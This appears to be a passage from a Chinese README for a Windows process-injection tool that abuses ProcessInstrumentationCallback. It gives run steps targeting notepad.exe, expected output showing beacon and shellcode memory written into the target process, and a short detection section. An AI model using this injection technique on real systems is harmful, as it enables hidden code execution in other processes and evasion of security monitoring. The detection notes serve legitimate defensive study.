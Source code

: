 ### 运行

```bash
# 1. 启动目标进程
notepad.exe

# 2. 获取进程 PID
tasklist | grep notepad.exe

# 3. 执行注入（传入 PID）
./setprocess_injection.exe <PID>

# 4. 与 notepad 交互（点击菜单、输入文字等）触发系统调用
# 5. MessageBox 将弹出（仅在支持的 Windows 版本）
```

### 预期输出

```
[*] SetProcessInjection - ProcessInstrumentationCallback Injection
[+] Found target process: PID 1234
[+] Starting ProcessInstrumentationCallback deployment!
[+] Beacon memory allocated at: 0x000001A2B3C4D000
[+] Shellcode memory allocated at: 0x000001A2B3C5E000
[+] Beacon content written at 0x000001A2B3C4D000
[+] Shellcode content written at 0x000001A2B3C5E000
[+] Beacon memory reprotected to RX
[+] Shellcode memory reprotected to RWX
[+] ProcessInstrumentationCallback deployed successfully!

[*] Monitoring callback execution...
[!] Interact with notepad.exe (type, click menu, etc.) to trigger the callback
[-] Waiting 5 seconds for the hook to be called... (attempt 1)
        [-] First byte value: 0x55 (original: 0x55)
[-] Waiting 5 seconds for the hook to be called... (attempt 2)
        [-] First byte value: 0x41 (original: 0x55)

[+] Callback executed! Your payload should have run!
[+] Check for the MessageBox in notepad.exe
```

## 检测与防御

### 检测方法

1. **监控 NtSetInformationProcess 调用**:
   ```c
   NtSetInformationProcess(*, ProcessInstrumentationCallback, *, *)
   ```

2. **检查进程 PEB 结构**:
   - 读取 `InstrumentationCallback` 字段
   - 检查是否指向非法模块
